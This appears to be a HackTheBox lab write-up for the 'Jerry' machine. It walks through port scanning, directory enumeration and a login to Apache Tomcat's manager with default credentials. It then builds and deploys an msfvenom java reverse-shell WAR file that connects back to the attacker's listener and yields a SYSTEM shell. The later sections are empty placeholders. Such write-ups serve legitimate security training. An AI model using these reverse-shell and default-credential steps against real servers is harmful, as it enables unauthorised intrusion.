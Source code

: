 ```yaml
---
tags: 
group: Windows
---
```

![](https://labs.hackthebox.com/storage/avatars/59f03a24178dbb2bdc94968c201e21f8.png)

- Machine : https://app.hackthebox.com/machines/Jerry
- Reference : https://0xdf.gitlab.io/2018/11/17/htb-jerry.html
- Solved : 2025.3.5. (Wed) (Takes 0days)

## Summary
---


### Key Techniques:


---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.95
Performing quick port scan on 10.10.10.95...
Found open ports: 8080
Performing detailed scan on 10.10.10.95...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-05 01:45 MST
Nmap scan report for 10.10.10.95
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.58 seconds
```

### http(80)

![](attachments/jerry_1.png)

Apache Tomcat 7.0.88 is running.

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Let's access `manager/html`.

![](attachments/jerry_2.png)

It asks login. Let's use default credentials from [here](https://raw.githubusercontent.com/netbiosX/Default-Credentials/refs/heads/master/Apache-Tomcat-Default-Passwords.mdown).
Among the credentials, `tomcat` : `s3cret` is the valid set.

![](attachments/jerry_3.png)

Let's create a `war` file to spawn a reverse shell.

```bash
┌──(kali㉿kali)-[~/htb/jerry]
└─$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.3 LPORT=9000 -f war > rshell.war
Payload size: 13030 bytes
Final size of war file: 13030 bytes
```

I uploaded it through "WAR file to deploy" and clicked the created one after setting up a listener.

```bash
┌──(kali㉿kali)-[~/htb/jerry]
└─$ nc -nlvp 9000          
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

I got `SYSTEM`'s shell.















# Shell as `user`

### Whatever




# Shell as `user2`

### Whatever



# Shell as `admin`

### Whatever
